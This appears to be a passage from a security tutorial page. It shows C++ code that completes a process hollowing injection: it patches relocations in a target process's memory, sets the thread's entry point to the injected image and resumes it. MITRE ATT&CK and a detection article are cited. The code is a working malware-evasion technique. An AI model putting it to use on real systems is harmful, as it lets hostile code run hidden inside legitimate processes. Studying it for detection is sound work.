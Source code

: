 ```cpp
			for (DWORD y = 0; y < relocationEntryCount; y++)
			{
				relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

				if (relocationEntries[y].Type == 0)
				{
					continue;
				}

				DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
				DWORD patchedBuffer = 0;
				ReadProcessMemory(destProcess,(LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
				patchedBuffer += deltaImageBase;

				WriteProcessMemory(destProcess,	(PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
				int a = GetLastError();
			}
		}
	}

	// get context of the dest process thread
	LPCONTEXT context = new CONTEXT();
	context->ContextFlags = CONTEXT_INTEGER;
	GetThreadContext(pi->hThread, context);

	// update dest image entry point to the new entry point of the source image and resume dest image thread
	DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
	context->Eax = patchedEntryPoint;
	SetThreadContext(pi->hThread, context);
	ResumeThread(pi->hThread);

	return 0;
}

```
{% endcode %}

## References

{% embed url="https://github.com/m0n0ph1/Process-Hollowing" %}

What an amazing resource for those interested in detecting process hollowing using memory forensics techniques:

{% embed url="https://cysinfo.com/detecting-deceptive-hollowing-techniques/" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}

